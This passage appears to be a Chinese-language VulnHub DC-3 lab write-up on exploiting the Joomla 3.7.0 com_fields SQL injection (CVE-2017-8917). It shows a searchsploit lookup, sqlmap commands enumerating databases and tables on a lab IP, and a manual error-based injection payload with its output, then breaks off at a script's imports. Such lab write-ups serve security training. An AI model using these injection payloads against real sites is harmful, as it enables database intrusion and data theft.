 ```bash
------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                       |  Path
                                                                                     | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------- ----------------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                           | exploits/php/webapps/42033.txt
------------------------------------------------------------------------------------- ----------------------------------------

# 将文件拷贝到当前路径下
root@kali:~/vulnhub/DC-3# searchsploit -m exploits/php/webapps/42033.txt

CVE-2017-8917
```
### 使用 sqlmap 利用 CVE-2017-8917
 查看所有数据库
```bash
$ sqlmap -u "http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbs


[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
```

查看joomladb数据库的表
```bash
sqlmap -u "http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables


# 展示主要一个
***
'#__users'
***
```


查询字段的时候出现问题，查询不到任何数据
```bash
sqlmap -u "http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' --columns --batch
```
### 手工利用(CVE-2017-8917)(sql injection error)
基于报错注入查看当前使用数据库
```python
http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,(database()),0x7e),1)


XPATH syntax error: '~joomladb~'
```
可以正常使用
### 使用exists 函数结合报错sql Injection爆破表的字段
直接编写python脚本来爆破字段
```python
import requests
import re
```